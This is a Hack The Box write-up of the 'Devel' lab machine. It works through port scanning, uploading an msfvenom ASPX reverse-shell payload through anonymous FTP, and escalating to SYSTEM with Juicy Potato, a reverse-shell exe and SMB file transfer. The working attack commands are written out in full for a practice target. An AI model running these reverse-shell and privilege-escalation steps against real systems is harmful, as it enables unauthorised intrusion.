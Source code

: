 # [Devel](https://app.hackthebox.eu/machines/3)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.5 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.5 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.5
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.5
```

The TCP quick scan returns the following:

![nmap1](./devel/nmap1.png)

Try connecting over FTP:

![ftp1](./devel/ftp1.png)

This looks like webserver files. Also, write access is given to `anonymous`. Browse to the webserver on port 80:

```bash
firefox http://10.10.10.5/
```

![web1](./devel/web1.png)

Looking at the HTML source shows `welcome.png`, which was found on the FTP server. This looks like the directory for the FTP server:

![web2](./devel/web2.png)

Try uploading an ASP webshell:

```bash
# generate an ASP shell
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f asp \
         -o bubba.asp
# start listener
rlwrap nc -nvlp 6969
# connect and upload to target over FTP
ftp 10.10.10.5
put bubba.asp
# trigger execution
curl -s -G http://10.10.10.5/bubba.asp
```

But this returns an error:

![web3](./devel/web3.png)

Try ASPX?

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -a x86 \
         -f aspx \
         -o bubba.aspx
```

Triggering this payload with `curl`, generates the following shell but does not provide `user.txt`?

![user1](./devel/user1.png)

Looking at current user permissions, there is an interesting one:

![user2](./devel/user2.png)

`SeImpersonatePrivilege` is a powerful token. This allows for escalation to SYSTEM using the following exploit:

- https://github.com/ohpe/juicy-potato

However the target is x86:

```bash
wmic os get osarchitecture
```

![user3](./devel/user3.png)

The releases on the exploit's GitHub are x64 only, The following repository provides the same binary but compiled for x86:

- https://github.com/ivanitlearning/Juicy-Potato-x86

Next, a CSLID is needed for the target OS version:

![user4](./devel/user4.png)

The target is `Windows 7 Enterprise`. Find a CSLID from here that gives `NT AUTHORITY\SYSTEM`:

- https://github.com/ohpe/juicy-potato/tree/master/CLSID

Now download, transfer, and trigger a new shell through the exploit:

```bash
# on kali, download files
wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe
# on kali, generate a new payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# on kali, start listener
rlwrap nc -nvlp 7777
# on kali, host files over SMB
sudo impacket-smbserver -smb2support BUBBA .
# on target, transfer files 
robocopy.exe \\10.10.14.27\BUBBA\ %TEMP% Juicy.Potato.x86.exe  /copy:DT /w:1 /r:1 /v 
robocopy.exe \\10.10.14.27\BUBBA\ %TEMP% bubba.exe /copy:DT /w:1 /r:1 /v
# on target, trigger exploit
%TEMP%\Juicy.Potato.x86.exe -l 9876 -p %TEMP%\bubba.exe -t * -c "{659cdea7-489e-11d9-a9cd-000d56965251}"
```

And this returns a shell as `SYSTEM`:

![root1](./devel/root1.png)

There are probably a few other ways to SYSTEM on this machine as well :wink:

